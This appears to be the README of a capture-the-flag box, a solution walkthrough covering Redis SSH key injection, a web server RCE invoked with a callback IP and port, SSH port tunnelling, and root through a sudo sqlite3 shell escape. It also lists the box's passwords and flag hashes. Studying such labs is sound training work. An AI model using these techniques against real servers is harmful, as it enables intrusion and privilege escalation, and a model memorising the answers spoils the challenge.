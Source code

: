 # WARNING THIS IS A CTF BOX, GO TO RELEASES FOR THE OVF
Then come back here if you get stuck or complete the box.


## User



### Port 6379
Misconfigured Redis server
Vulnerable to sshkey authorized_keys injection using redis_sshkey_dropper.sh

Gets access to the server as redis user

    ./redis_sshkey_dropper.sh 10.10.69.13 6379 redis /var/lib/redis/.ssh

### Port 8080
Custom HTTP server
Source code is "leaked" with a comment on /index.html
Vulnerable to RCE using webserver_python_RCE.sh

Tunnel the port from the shell you got from redis by typing:

    ~C
    -L 8080:127.0.0.1:8080

Gets access to michiko-arasaka user

    ./webserver_python_RCE.sh http://127.0.0.1:8080/ 10.10.69.42 3000

## Root

### Sudo sqlite3

As `michiko-arasaka` you can list your sudo permissions with `sudo -l`

You can execute sqlite3 as root on this box, so you can run

    sudo /usr/bin/sqlite3
    .shell /bin/bash

Rooted!

## Creds
root:UnguessableP@ssw0rd

/root/root.txt : 4e067a8231035d94ca54f1e41c12df6e
 

michiko-arasaka:4d4m5M@SH3R

/home/michiko-arasaka/user.txt : 169ab538813557728c78b637db91d1b0

